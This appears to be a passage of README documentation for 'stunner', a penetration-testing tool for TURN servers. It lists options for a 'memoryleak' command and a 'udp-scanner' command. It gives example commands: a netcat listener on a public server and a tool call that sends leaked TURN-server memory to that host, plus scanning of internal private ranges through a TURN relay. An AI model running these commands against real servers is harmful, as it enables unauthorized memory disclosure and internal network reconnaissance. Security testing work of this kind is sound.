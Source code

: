 ### Options

```text
--debug, -d                   enable debug output (default: false)
--turnserver value, -s value  turn server to connect to in the format host:port
--tls                         Use TLS/DTLS on connecting to the STUN or TURN server (default: false)
--protocol value              protocol to use when connecting to the TURN server. Supported values: tcp and udp (default: "udp")
--timeout value               connect timeout to turn server (default: 1s)
--username value, -u value    username for the turn server
--password value, -p value    password for the turn server
--target value, -t value      Target to leak memory to in the form host:port. Should be a public server under your control
--size value                  Size of the buffer to leak (default: 35510)
--help, -h                    show help (default: false)
```

### Example

To receive the data we need to set up a receiver on a server with a public ip. Normally firewalls are configured to only
allow highports (>1024) from TURN servers so be sure to use a high port like 8080 in this example when connecting out to
the internet.

```bash
sudo nc -u -l -n -v -p 8080 | hexdump -C
```

then execute the following statement on your machine adding the public ip to the `t` parameter

```bash
./stunner memoryleak -s x.x.x.x:3478 -t y.y.y.y:8080 -u username -p password
```

If it works you should see big loads of memory coming in, otherwise you will only see short messages.

## udp-scanner

If a TURN server allows UDP connections to internal targets this scanner can be used to scan all private ip ranges and send them
SNMP and DNS requests. As this checks a lot of IPs this can take multiple days to complete so use with caution or
specify smaller targets via the parameters. You need to supply an SNMP community string that will be tried and a domain
name that will be resolved on each IP. For the domain name you can for example use burp collaborator.

### Options

```text
--debug, -d                   enable debug output (default: false)
--turnserver value, -s value  turn server to connect to in the format host:port
--tls                         Use TLS/DTLS on connecting to the STUN or TURN server (default: false)
--protocol value              protocol to use when connecting to the TURN server. Supported values: tcp and udp (default: "udp")
--timeout value               connect timeout to turn server (default: 1s)
--username value, -u value    username for the turn server
--password value, -p value    password for the turn server
--community-string value      SNMP community string to use for scanning (default: "public")
--domain value                domain name to resolve on internal DNS servers during scanning
--ip value                    Scan single IP instead of whole private range. If left empty all private ranges are scanned. Accepts single IPs or CIDR format.  (accepts multiple inputs)
--help, -h                    show help (default: false)
```